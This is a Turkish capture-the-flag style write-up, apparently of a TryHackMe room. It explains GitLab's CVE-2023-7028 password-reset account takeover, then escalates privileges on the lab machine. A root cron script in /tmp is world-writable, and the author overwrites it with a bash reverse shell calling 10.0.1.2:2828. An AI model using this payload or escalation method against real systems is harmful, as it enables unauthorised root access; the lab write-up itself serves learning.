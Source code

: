 ```yaml
---
title: "TryHackMe: Overpass"
author: b1lal
categories: [TryHackMe]
tags: [gitlab, cve, cve 2023-7028, bug bounty]
render_with_liquid: false
media_subpath: /images/tryhackme_overpass_1/
image:
  path: main.png
---
```


GitLab, yazılım geliştirme projelerinde kaynak kodu yönetimi, sürekli entegrasyon ve işbirliği için kapsamlı bir platform sağlayan, tanınmış ve yaygın olarak benimsenmiş web tabanlı bir depo yöneticisidir. Ocak 2024'te platform, `Community` ve `Enterprise Edition` sürümünde yetkisiz kullanıcıların, potansiyel olarak yönetici hesapları da dahil olmak üzere, mağdurun herhangi bir etkileşimi olmadan kullanıcı hesaplarını ele geçirmesine olanak tanıyan kritik bir güvenlik açığı tespit etti. Güvenlik açığı <a href="https://hackerone.com/reports/2293343" target="_blank" style="text-decoration: none; color: yellow;">asterion04</a> tarafından özel bir hata ödül programı aracılığıyla tespit edilmiş ve Kritik önem derecesi ve **CVE-ID 2023-7028** olarak atanmıştır.

<!-- [![TryHackMe Gitlab CVE 2023-7028](main.png){: width="750" height="750" .shadow}](https://tryhackme.com/room/gitlabcve20237028){: .center } -->


## Nasıl Çalışıyor ?

Güvenlik açığı, GitLab'ın parola sıfırlama sırasında e-posta doğrulamasını işleme biçimindeki bir hatadan kaynaklanıyordu. Bir saldırgan parola sıfırlama isteği sırasında iki e-posta adresi sağlayabilir ve sıfırlama kodu her iki adrese de gönderilir. Bu, saldırganın kullanıcının mevcut parolasını bilmese bile herhangi bir kullanıcının parolasını sıfırlamasına olanak tanıyordu.

<br>

### Etkilenen Versiyonlar
- 16.1 ➜ 16.1.5
- 16.2 ➜ 16.2.8
- 16.3 ➜ 16.3.6
- 16.4 ➜ 16.4.4
- 16.5 ➜ 16.5.5
- 16.6 ➜ 16.6.3
- 16.7 ➜ 16.7.1

<br>

### Etkisi

Başarılı bir saldırı, saldırganın kurbanın GitLab hesabını kontrol etmesini sağlayabilir. Bu da saldırganın kaynak kodu, işlem geçmişi ve kullanıcı kimlik bilgileri gibi hassas bilgileri çalmasına olanak sağlayabilir. Saldırgan, ele geçirdiği hesabı diğer kullanıcılara veya sistemlere karşı başka saldırılar başlatmak için de kullanabilir.

<br>

### Detaylı Teknik Açıklama

Bu güvenlik açığı, GitLab'ın `POST /users/password` API uç noktasında bulunuyordu ve parola sıfırlamaktan sorumluydu. Pentester, e-posta adresi doğrulamasındaki bir hatayı istismar ederek geçersiz formatlarla yapılan kontrolleri atlattı. Saldırgan tarafından kontrol edilen bir e-posta ile parola sıfırlama isteği gönderildiğinde, GitLab yanlışlıkla bir sıfırlama jetonu oluşturup bu geçersiz adrese gönderdi. Saldırganlar bu jetonu ele geçirerek geçerli bir hedef kullanıcının e-postasıyla birleştirip parola sıfırlama sürecini başlattı ve sonunda hesabı ele geçirdi.

GitLab'daki parola sıfırlama isteğine baktığımızda, `/users/password` uç noktasına bir istek gönderildiğini görebiliriz. Bu istek, `authenticity_token` ve e-posta adresini parametre olarak içerir. Eğer hedef kullanıcı ek bir ikincil e-posta adresi sağlarsa, parola sıfırlama jetonu bu adrese de gönderilir.

![alt text](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/0b1bcaad54f02ef517007536c9ff492f.png)


Güvenlik açığının nasıl çalıştığını daha iyi anlamak için <a href="https://gitlab.com/gitlab-org/gitlab-foss/-/commit/21f32835ac7ca8c7ef57a93746dac7697341acc0" target="_blank" style="text-decoration: none; color: cyan;">kaynak kod</a> değişikliğine bakabilirsiniz.

<br>

**spec/controllers/passwords_controller_spec.rb** dosyasında bulunan kod, giriş olarak birden fazla e-posta adresini kabul ediyordu. Ancak, bu e-postaların doğru kullanıcıya ait olup olmadığını doğrulayan bir e-posta doğrulama ve doğrulama mekanizmasına sahip değildi.

![spec/controllers/passwords_controller_spec.rb](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/20ade8839fb7db0e8a139ef10951bdc6.png)


<br>

Saldırganın hedef hesabı ele geçirmek için yalnızca form gönderimi sırasında `authenticity_token` ve hedef kişinin `e-posta adresine` ihtiyacı vardı.


<br>


## Nasıl Sömürülür ?

Güvenlik açığından faydalanmak bir pentester için basittir, yalnızca hedef e-posta adresi ile `/users/password` yöntemine bir API çağrısı gerektirir.


*Bu güvenlik açığını daha iyi anlamak için TryHackMe üzerinde bulunan GitLab zaafiyetini barındıran Ubuntu tabanlı bir makine kullanacağız.*

<br>
<br>
<br>
<br>
<br>

Bu challenge bizden iki soruya cevap vermemizi istiyor:
- Planlanan cronjob nedir ? (fullpath)
- **flag.txt** dosyasının içeriği nedir ?

Challenge'ı başlatıyoruz, birkaç dakika sonra başlıyor. 


## Cronjob Dosyasını Bulma

Burada ilk yaptığımız vakit kaybetmeden zamanlanmış görev olup olmadığını kontrol etmektir.


```console
┌──(user㉿ubuntu)-[~]
└─$ cat /etc/crontab  
# /etc/crontab: system-wide crontab  
# Unlike any other crontab you don't have to run the `crontab`  
# command to install the new version when you edit this file  
# and files in /etc/cron.d. These files also have username fields,  
# that none of the other crontabs do.  
```

<br>
<br>

Burada gözümüze doğrudan cleanup.sh dosyası çarpıyor. Bunu biraz daha detaylı inceleyelim.

```bash
*/1 * * * * root /tmp/cleanup.sh
```


## Crontab Dosyasının Özellikleri

### Zamanlama Bölümü (`*/1 * * * *`)

Crontab satırları, zamanlama bilgisi içeren **beş alandan** oluşur:


| Dakika (0-59) | Saat (0-23) | Gün (1-31) | Ay (1-12) | Hafta Günü (0-6, Pazar=0 veya 7) |
| :-----------: | :---------: | :--------: | :-------: | :------------------------------: |
|     `*/1`     |     `*`     |    `*`     |    `*`    |               `*`                |




<br>

- **`*/1`** → Her **1 dakikada bir** çalıştır.
- **`*` (diğerleri)** → **Her saat, her gün, her ay ve her hafta günü** çalıştır.

Bu nedenle, bu görev **her dakika çalışacaktır**.

---

### Kullanıcı Bölümü (`root`)

- **`root`** → Bu komut **root kullanıcısı** tarafından çalıştırılacaktır.
- `/etc/crontab` gibi sistem genelindeki crontab dosyalarında kullanıcı adı **belirtilmelidir**.

---

<br>

## Yetki Yükseltme

Şimdi bu dosyaya yazma hakkımızın olup olmadığını kontrol edelim.

```bash
┌──(user㉿ubuntu)-[~]
└─$ ls -l /tmp/cleanup.sh
-rwxrw-rw- 1 root root 36 Aug 25 2023 /tmp/cleanup.sh
```

Yazma hakkımızın olduğunu görüyoruz. Şimdi dosyanın içeriğini reverse shell alabileceğimiz şekilde değiştirelim.

```bash
┌──(user㉿ubuntu)-[~]
└─$ vim /tmp/cleanup.sh
```

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.0.1.2/2828 0>&1
```
{: file="cleanup.sh" }

İlk challenge'ımızı başarıyla tamamladık. Bir sonra yazılarda görüşmek üzere.

![Challenge Finished](challenge-finish.png){: width="1000" height="700"}

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>
